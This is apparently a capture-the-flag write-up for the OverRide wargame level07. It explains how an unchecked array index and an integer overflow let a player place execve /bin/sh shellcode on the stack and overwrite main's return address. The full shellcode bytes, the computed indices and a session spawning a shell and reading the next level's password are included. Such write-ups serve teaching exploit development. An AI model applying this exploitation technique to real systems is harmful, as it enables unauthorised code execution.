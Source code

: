 ## The program

The program allows the user to store numbers in a table, at a chosen index, to retrieve numbers stored in the table at a chosen index, or to quit.

- The `read` instruction calls a `read_number` function which retrieves an unsigned int stored at a specify index.
- The `store` instruction calls a `store_number` function. which asks for a number and an index. If the index is divisible by 3, the function returns with an error message that the3 index is not available. Otherwise, it stores the number provided at the requested index.
- the `quit` instruction just quits the program

It is important to mention that the program protects for any arguments provided to the program, or any environment variable that could compromise its security : in the main(), it does erase arguments and environment variable, in case a smart boy had introduced malicious code through these means...


## The vulnerability

The vulnerability comes from the fact that there is no check performed on the index + the unsigned int table is stored on the stack : This makes the possibility to store and/or read in stack memory wherever we want.


## The exploit

The exploit will consist in storing a shellcode in the table (so 4 by 4 bytes => unsigned int), and erase the address stored in memory at `$ebp+0x4` (so next instruction $eip of function `_libc_start_main` which launches the main) with the address of our table. The program will then call our shellcode when returning from main().

1. First step : Getting the suite of unsigned integers which correspond to the shellcode. As we'll have to enter the number one by one at the right index, it is better to take a [tiny shellcode](http://shell-storm.org/shellcode/files/shellcode-841.php).

    The shellcode is `\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80` and is **21 bytes long**

    We have to take 4 by 4 bytes together, reverse them for taking little endian into account, and get the unsigned int equivalent. This makes 5 unsigned int that have to be stored at indices 0, 1, 2, 3, 4, 5. cf the ptyhon3 script to get the list of numbers.

2. Second step : Getting the right indices.

    As we said we need to store the numbers at indices `0 to 5 included`. The problem is that the `store_number` function does not allow us to store a number at an index which is divisible by 3. So in our case, 0 and 3 won't work.

    We can see in the asembly code of `store_number`, that the index is multiplied by 4 (left shift of 2 at Line <+149>) after the divisibility check, and before the number is retrieved. This is normal as we have an unsigned int table, so when we ask for the index 2 for exemple, the program goes get the number represented by the 4 bytes starting `4 x 2 = 8 bytes` after the beginning of our table. This is the classic functioning of a table storing elements of type greater than 1 byte.

    We could exploit that : we can give a sufficiently large number, not divisible by 3, and when multiplied by 4 it would overflow UINT_MAX (`2^32 - 1 or 4,294,967,295) and give the number where we want to read in memory (so after multiplying by 4 obviously).

    Hence for 0 we want that our index multiplied by 4 gives 2^32 : `index = 2^32 / 4 = 1073741824`

    For index 3, we want that our index multiplied by 4 gives 12 : `index = (2^32 + 12) / 4 = 1073741827`

3. Getting the value to be stored at pre-main $eip

    As we haven't included NOP instructions, for we want the shellcode to be as small as possible to avoid writing many numbers, it's better if we store directly the right address of our table (hence the beginning of our shellcode)

    We know, from `main Line <+448>`, that our table is sotred at `$esp+0x24`. Using the command `i r $esp` in the main(), we find the value of $esp : `0xffffd4e0` so our table starts at address `0xffffd4e0 + 0x24 = 0xffffd504`. But this is its value inside gdb environment, which differs slightly from the "real" envionment outside of gdb. So if we put this address it wont work. We can try several addresses greater than this number, but it would require lots of trial and errors, and entering the shellcode numbers is already time-consuming when done once.

    The trick : we notice we can read negative indices as well. When calling `read_number` (Line <+520>), the address of the table is stored at $esp of main. Then, $eip and $ebp are pushed onto the stack, so this argument is stored at `$ebp+0x8` in the `read_number` function. Notice that this is above the address of our tab. We can set a breakpoint in `read_number`, and once reach, get teh address at `$ebp+0x8` witht he command `x/wx $ebp+0x8` => `0xffffd4e0`.

    So the address of our table is stored `0xffffd504 - 0xffffd4e0 = 0x24 = 36 bytes` above our table. `36 / 4 = 9` so at index `-9`

4. Getting the index at which the next instruction of the pre-main function is stored.
    
    Let's put a breakpoint in main, and get the address of $ebp : `i r $ebp` and add 4 to get to the location where $eip of previous function is stored : this is what we want to replace. We get `0xffffd6c8 + 4 = 0xffffd6cc`. We find the offset (difference betwwen our table and this memory location) : `0x1c8 or 456 bytes`

    `456 / 4 = 114` which means we have to store the value found previously at index 114.

    The problem is that 114 is divisible by, so, with the same technique we used in point 2 above, we have to enter the index : `(2^32 + 114 * 4) / 4 = 1073741938`

    This will erase the value of the next instruction of the `_libc_start_main` function


## Result

```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 3791112497
 Index: 1073741824
 Completed store command successfully
Input command: store
 Number: 1750141872
 Index: 1
 Completed store command successfully
Input command: store
 Number: 1752379183
 Index: 2
 Completed store command successfully
Input command: store
 Number: 1768042344
 Index: 1073741827
 Completed store command successfully
Input command: store
 Number: 3454241134
 Index: 4
 Completed store command successfully
Input command: store
 Number: 128
 Index: 5
 Completed store command successfully
Input command: read
 Index: -9
 Number at data[4294967287] is 4294956340                #address of the unsigned int table
 Completed read command successfully
Input command: store
 Number: 4294956340                                      #which gets stored at $eip pre-main
 Index: 1073741938
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
$
```